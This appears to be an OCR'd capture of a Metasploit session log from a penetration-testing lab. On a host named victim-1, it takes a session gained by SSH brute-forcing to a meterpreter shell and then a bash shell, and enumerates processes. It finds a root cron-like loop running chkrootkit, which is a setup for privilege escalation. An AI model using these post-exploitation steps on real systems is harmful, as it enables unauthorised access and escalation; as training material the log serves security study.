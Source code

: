 ```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.58.78.3
OS           : Ubuntu 18.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
```

```
meterpreter > shell
Process 6616 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (4140): Inappropriate ioctl for device
bash: no job control in this shell
jackie@victim-1:~$ id
id
uid=1000(jackie) gid=1000(jackie) groups=1000(jackie)
jackie@victim-1:~$ whoami
whoami
jackie
jackie@victim-1:~$ ps aux
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4624   808 ?        Ss   09:01   0:00 /bin/sh -c /usr/local/bin/start.sh
root           7  0.0  0.0  55128 20360 ?        S    09:01   0:00 /usr/bin/python /usr/bin/supervisord -n
root          12  0.0  0.0  28352  2576 ?        Ss   09:01   0:00 /usr/sbin/cron
root          22  0.0  0.0  72292  3260 ?        Ss   09:01   0:00 /usr/sbin/sshd
root          30  0.0  0.0   9916  2804 ?        S    09:02   0:00 /bin/bash /bin/check-down
root        4128  0.0  0.0 101548  6964 ?        Ss   09:11   0:00 sshd: jackie [priv]
jackie      4139  0.0  0.0 103848  5432 ?        S    09:11   0:00 sshd: jackie@notty
jackie      4140  0.0  0.0  18372  3244 ?        Ss   09:11   0:00 -bash
jackie      4969  0.0  0.0   1148  1028 ?        S    09:13   0:00 /tmp/CuwaE
jackie      6616  0.0  0.0   4624   808 ?        S    09:17   0:00 /bin/sh
jackie      6617  0.0  0.0  18504  3316 ?        S    09:17   0:00 /bin/bash -i
root        7033  0.0  0.0   4528   820 ?        S    09:18   0:00 sleep 60
jackie      7034  0.0  0.0  34396  2884 ?        R    09:18   0:00 ps aux
jackie@victim-1:~$ cat /bin/check-down
cat /bin/check-down
#!/bin/bash
while :
do
        /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
        sleep 60
done
jackie@victim-1:~$ chkrootkit -help
chkrootkit -help
Usage: /bin/chkrootkit [options] [test ...]
Options:
        -h                show this help and exit
        -V                show version information and exit
        -l                show available tests and exit
        -d                debug
        -q                quiet mode
        -x                expert mode
        -r dir            use dir as the root directory
        -p dir1:dir2:dirN path for the external commands used by chkrootkit
```